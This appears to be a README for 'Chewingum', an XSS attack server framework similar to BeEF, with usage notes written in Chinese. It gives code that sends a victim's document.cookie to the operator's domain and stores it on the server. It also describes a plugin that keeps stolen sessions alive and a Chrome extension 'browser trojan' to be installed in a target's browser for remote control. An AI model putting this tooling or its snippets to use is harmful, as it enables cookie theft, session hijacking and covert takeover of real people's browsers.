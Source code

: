 # Chewingum [alpha][0.2][1140214]

Name
----
**chewingum - individual XSS server framework**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ -h | host port debug ]

Dependencies
------------
* [Bottle - 0.11](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

1.login
采用filekey验证, 上传filekey或输入URL便可登录.

2.server
server处代码会直接在项目触发时执行,
最终会将变量serverinfo和变量browserinfo保存至数据库,
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

3.server code keyword
iferror
对变量iferror赋值, 会触发对应错误.
如:
>	iferror = 404

returns
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.
如:
>	returns = '<script>alert(1)</script>'

gum.backinfo
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。
当返回之后最好清空它。
>   gum.backinfo = {};

4.project name and object name
project 的项目名需是xss触发处的url或是domain.
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

+	object 的项目名可随意更改.

5.plugins
可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

6.set code
这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

+		不推荐使用多次接收，默认已关闭。

7.other
使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

8.console
尚在测试阶段。
javascript文件在

    ./static/plus/onexsshell.js

9.browser trojan
chrome
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口
使用chrome or chromium打包
安装在目标的浏览器后，使用console即可操作目标浏览器。

+   尚在测试阶段
